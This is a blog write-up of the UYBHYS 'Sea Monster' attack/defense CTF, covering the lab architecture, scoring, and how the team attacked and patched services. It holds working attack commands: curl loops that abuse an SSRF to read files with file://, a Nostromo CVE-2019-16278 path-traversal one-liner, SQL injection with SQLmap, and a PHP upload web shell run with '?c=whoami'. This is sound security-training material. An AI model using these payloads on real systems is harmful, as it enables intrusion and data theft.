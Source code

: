 ```yaml
---
layout: post
title: UYBHYS - Sea Monster Attack & Defense CTF
---
```


Last week-end I teamed up with members from [Aperikube](https://www.aperikube.fr) for an Attack/Defense CTF which took place in Brest - France. In this "small" blog post I will write about this experience, the challenges and our methodology :)

![Banner]({{ site.baseurl }}/images/SeaMonsterBanner.png "Banner"){: .center-image }

Rules & informations about the CTF are available in the following PDF : [CTF_UYBHYS.pdf]({{ site.baseurl }}/files/CTF_UYBHYS.pdf)

## CTF Architecture

All teams had the same virtual machines to secure and attack.

- bastion.unlock.ctf : 172.16.1.20
- www.unlock.ctf : 172.16.1.10
- plc.unlock.ctf : 192.168.12.10
- win.unlock.ctf : 192.168.0.10
- fw.unlock.ctf (PfSense)

These machines host some services such as Web Servers, RDP etc... We had access to the source code of the binaries and the URL alive.unlock.ctf displayed the status of all teams services. In the following picture you can clearly see Team08 and Team10 didn't patch their RDP.

![Alive]({{ site.baseurl }}/images/SeaMonsterAlive.png "Alive services"){: .center-image }

In the first 30 minutes we could access our machines and secure them without losing any points, then the scoreboard will update every 20 seconds to decrease your point if a service is down, you also loose point when a team is stealing one of your flag. Based on what we had we mapped the services linked to a flag and 2 columns to check if they were patched and/or exploited.

{% highlight sql %}
PORT      STATE    SERVICE       REASON         VERSION                             PATCHED     EXPLOIT
53                               Bastion        bind                                OK          OK       SSRF/zone
25/tcp                           PLC            vplc ESMTP Postfix (Debian/GNU)     OK     
80/tcp    open     http          Web            nginx 1.6.2                         OK          OK       sql    TODO RCE
502/tcp   open     modbus        PLC            Modbus TCP                          OK          OK       Modbus    
3232/tcp  open     http          Web            nostromo 1.9.6                      OK          OK       DirTravRCE        
3389/tcp  filtered ms-wbt-server Win                                                     
4141/tcp  open     oirtgsvc?     Bastion        whoareyou                           OK                   BOF ? 
4242                             Bastion                                            OK              
8080/tcp  open     http          Bastion        Apache httpd 2.4.10 ((Debian))      OK          KO       MySQL ?
9090/tcp  open     http          Web            nginx 1.6.2                         OK          OK       LDAP inj
45454/tcp open     unknown       Bastion        exploit 
{% endhighlight %}  


It was possible to trade some points for hints and insights in the Black Market, however nothing is guaranted: flags and hints might be wrong or misleading. We took the $0 trade, this gave us a list of the teams and their corresponding sea monster : 

{% highlight sql %}
TEAM1-CRABAL
TEAM2-MEDUSA
TEAM3-STARKA
TEAM4-PIKOR
TEAM5-PONIK
TEAM6-BALENOR
TEAM7-KRAKEN
TEAM8-SQUIDO
TEAM9-HYDROL
TEAM10-SHARKY
TEAM11-POULPY
TEAM12-GUMPAL
TEAM12-SNAKUS
TEAM14-MORSOS
TEAM15-RAYMOL
{% endhighlight %}


## win.unlock.ctf

I wasn't paying attention when the organizers told us the account was not `user` as stated in the PDF but in fact `Administrator`. Missing this information, made me try to exploit the machine in order to get an NT AUTORITY SYSTEM shell, I went to the easy path `Eternal Blue`.

![Windows Eternal Blue]({{ site.baseurl }}/images/SeaMonsterWin.png "Windows Eternal Blue"){: .center-image }

### RDP - 3389

However the SMB service was not forwarded by the firewall and we couldn't exploit the service, it seems the intended way was to use `Bluekeep` as the RDP was checked by the bot and the team lose some points until we opened a Port Forward rule.

![Firewall]({{ site.baseurl }}/images/SeaMonsterFirewall.png "Firewall services"){: .center-image }


## plc.unlock.ctf 

### Modbus - 502

This machine was an easy win, we used [plcscan](https://github.com/meeas/plcscan) to scan the Modbus service on port 502, the PLC description contained the flag.

![Modbus]({{ site.baseurl }}/images/SeaMonsterModbusScan.png "Modbus services"){: .center-image }

![PLC]({{ site.baseurl }}/images/SeaMonsterPLC.png "PLC description"){: .center-image }

{% highlight sql %}
team02.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
team03.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
[...]
team14.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
{% endhighlight %}

## www.unlock.ctf 

### SSRF - Port 8080

The web server on port 8080 allows the user to ping a machine, we runned the `grep` binary on the entire disk to find files containing flags and used the SSRF to display them with `http://team14.ctf:8080/index.php?ip=file://PATH_TO_FILE`.

It appears we could read the file `file:///etc/bind/zones/unlock.ctf.db`, so we scripted the exploitation of this challenge, however this was the flag for the `Port 53`...

{% highlight bash %}
for i in `seq 1 15`; do echo "Team"$i; curl -s http://team0$i.ctf:8080/index.php?ip=file%3A%2F%2F%2Fetc%2Fbind%2Fzones%2Funlock.ctf.db | grep UYB; done
{% endhighlight %}

![Bind]({{ site.baseurl }}/images/SeaMonsterWWWssrfpath.png "Bind"){: .center-image }

We made the mistake to assume a simple filter like `$ip[0] == "1"` would be enough to stop any exploitation on our machine, however we missed the critical point. Another service was available on port 6666, which would display the content of the file using a specificly crafted URL. We saw the exploit in our logs and replayed the URL on the other team to get more flags.

### Nostromo - Port 3232

We used the CVE-2019-16278 to exploit the Nostromo service on the web machine.

{% highlight bash %}
$ for i in `seq 1 15`; do echo -n "Team"$i; curl -s "http://team0$i.ctf:3232//.%0D./.%0D./.%0D./.%0D./var/nostromo/conf/flag.txt" | grep UYB; done

[...]
Team2 UYB{bcf13245517c9fb5158719cec}
Team3 UYB{b454ae20caa9b07ab4e2c3c01}
Team4 UYB{41c0136228d5a7db614f89431}
[...]
{% endhighlight %}


### Custom website - Port 80 

First part of the exploitation was to create an account to access the website and find the SQL injection. The exploitation doesn't need to be logged in, the flag was stored as a plaintext password for the administrator. `SQLmap` and simple `for` loop were enough to exploit the vulnerability and dump the users table.

![SQL]({{ site.baseurl }}/images/SeaMonsterSQL.png "SQL"){: .center-image }

The website contains multiple vulnerabilities, once logged as admin we can access the upload page, even though the HTML upload part was commented. 

![UPLOAD]({{ site.baseurl }}/images/SeaMonsterWWWuploadcode.png "upload"){: .center-image }

The PHP backend is doing some checks but it is not enough to prevent the upload of a PHP file in the images directory, we used a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Metadata/PHP_exif_system.jpg) and then executed our commands with `http://team12.ctf/images_import/PHP_exif_system.php?c=whoami`. Unfortunately the CTF ended when we got our command exec... (otherwise we might have been able to exploit EternalBlue against the Windows machine and grab the flag located in C:\flag).

Even if you had patched these vulnerabilities in the website, there were two backup folders `site.bak` and `site_save` to remove.

![Backup]({{ site.baseurl }}/images/SeaMonsterWWWtree.png "Backup"){: .center-image }

## Final Thought

The CTF was great, the infrastructure worked flawlessly and the challenge difficulty was balanced enough to let the team understand, patch and exploit them during the 5 hours timeframe. We finished 1st but I would like to thank all the teams for their fair-play and the organisers for the event. Also thank you to the different sponsors ;)

![Scoreboard]({{ site.baseurl }}/images/SeaMonsterScoreboard.png "Scoreboard"){: .center-image }
